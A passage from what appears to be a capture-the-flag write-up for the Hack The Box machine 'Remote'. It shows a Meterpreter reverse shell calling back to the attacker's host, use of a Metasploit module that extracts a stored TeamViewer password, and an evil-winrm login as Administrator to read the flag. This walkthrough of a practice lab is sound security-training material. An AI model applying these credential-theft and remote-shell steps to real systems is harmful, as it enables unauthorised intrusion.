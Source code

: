 Running the executeable on the victim machine

~~~
PS C:\tmp> ./shell.exe
~~~

The meterpreter shell worked just fine, the teamviewer password module is located at *post/windows/gather/credentials/teamviewer_passwords* so i background the session, use the module and run it against the backgrounded session. 

~~~
[*] Sending stage (176195 bytes) to 10.10.10.180
[*] Meterpreter session 1 opened (10.10.14.40:9002 -> 10.10.10.180:49714) at 2020-09-08 17:06:07 -0400

meterpreter > bg                                          
[*] Backgrounding session 1...
msf5 exploit(multi/handler) > use post/windows/gather/credentials/teamviewer_passwords
[*] Using post/windows/gather/credentials/teamviewer_passwords
msf5 post(windows/gather/credentials/teamviewer_passwords) > set SESSION 1
SESSION => 1                                              
msf5 post(windows/gather/credentials/teamviewer_passwords) > run

[*] Finding TeamViewer Passwords on REMOTE
[+] Found Unattended Password: !R3m0te!
[+] Passwords stored in: /home/kali/.msf4/loot/20200908170750_default_10.10.10.180_host.teamviewer__739520.txt
[*] <---------------- | Using Window Technique | ---------------->
[*] TeamViewer's language setting options are ''
[*] TeamViewer's version is ''
[-] Unable to find TeamViewer's process
[*] Post module execution completed
~~~

We found the password **!R3m0te!**, using this password i was able to connect to the Administrator account trough *evil-winrm*

Getting root.txt:

~~~
┌──(kali@kali)-[~/boxes/remote]
└─$ evil-winrm -i 10.10.10.180 -u Administrator -p "\!R3m0te\!"                                                                                                                                                                        1 ⨯

Evil-WinRM shell v2.3

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\Administrator\Documents> cd ../Desktop
*Evil-WinRM* PS C:\Users\Administrator\Desktop> ls


    Directory: C:\Users\Administrator\Desktop


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-ar---         9/8/2020   2:21 PM             34 root.txt


*Evil-WinRM* PS C:\Users\Administrator\Desktop> more root.txt
45926f98606----------0d2ea968a71

*Evil-WinRM* PS C:\Users\Administrator\Desktop> 
~~~


